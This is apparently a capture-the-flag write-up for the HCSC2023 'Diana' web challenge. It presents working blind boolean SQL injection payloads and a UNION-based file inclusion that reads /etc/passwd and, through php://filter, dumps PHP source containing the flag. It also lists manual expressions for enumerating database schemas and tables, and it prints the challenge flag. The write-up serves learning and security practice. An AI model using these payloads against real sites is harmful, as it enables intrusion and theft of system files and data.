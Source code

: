 # Checking the site

Visiting the site reveals the following form. Similar to the Diana #1 challenge.

![](screenshots/1.png)

The 4th image with the flag disappeared.

# SQLi

Notice that the form also vulnerable to SQL injects. Just enter a `"`, like below. The former gives the Warner Bros letter, the latter not.

```
%' AND 1=1 #
%' AND 1=2 #
```

The images can be gathered 1 by 1.

```
' LIMIT 1 OFFSET 0 #
' LIMIT 1 OFFSET 1 #
' LIMIT 1 OFFSET 1 #
```

Only affect the outcome whether it has an image output or not can be affected. This is a blind boolean based inject in the form of `' AND expression`, where the expression can be controlled.

Probing the number of columns in the query turns out to be 1. 

# LFI
Further experimentation reveals it is including the filename that was returned from the query. The `X` is there to prevent the other images.
```
X' UNION SELECT "/etc/passwd" #
```

![](screenshots/2.png)

The php filters can be utilized to read the sourcecode.

```
X' UNION SELECT "php://filter/convert.base64-encode/resource=index.php" #
X' UNION SELECT "php://filter/convert.base64-encode/resource=connect.php" #
```

Reading the `index.php` reveals the existence of `connect.php`. This has the flag.

![](screenshots/3.png)

# Flag
`HCSC2023{M4gis_h0l_m4sh0l_l4nne_4_fl4g}`

# Without guessing LFI
If we failed to stumble upon the LFI part, the database can be read. There is a length limitation on the input, which prevents [sqlmap](https://sqlmap.org/) to work, but it can be done manually similarly to it's attempts.

For example the payload sent in `data = {"felado": "' AND " + expr +";#"}`, where `expr` is the boolean expression, `char` is the character list we go 1 by 1, and indices `i` and `l`.
```
version() LIKE '{ver}{char}%'
  -- mariadb version 10.6.12
Database() LIKE '{db}{char}%
  -- diana is the current database
MID((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{l},1)='{char}'
  -- diana, test databases
MID((SELECT TABLE_SCHEMA FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- databases at tables so their name can be found by pairing at offset
MID((SELECT TABLE_NAME FROM information_schema.TABLES LIMIT {i},1),{l},1)='{char}'
  -- letters, the table name, paired with previous
MID((SELECT TABLE_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- also table name for columns, now this is used for pairing at offset
  -- exiting from the internal loop when the first letter is not "l" can speed things up greatly
MID((SELECT COLUMN_NAME FROM information_schema.COLUMNS LIMIT {i},1),{l},1)='{char}'
  -- id, sender, filename, paired with previous
ORD(MID((SELECT filename FROM letters LIMIT {i},1),{l},1))={charcode}
  -- the filename column, rest of the columns are similar
```
| id | sender | filename |
|---|---|---|
| 1 | Warner Bros. | 134357887.php |
| 1 | Youtube | 275434893.php |
| 1 | LiveDiana | 378655234.php |

See python files for more details. [run3.py](workdir/run3.py)

Because of the `php` extension, it should be obvious now that the files are included.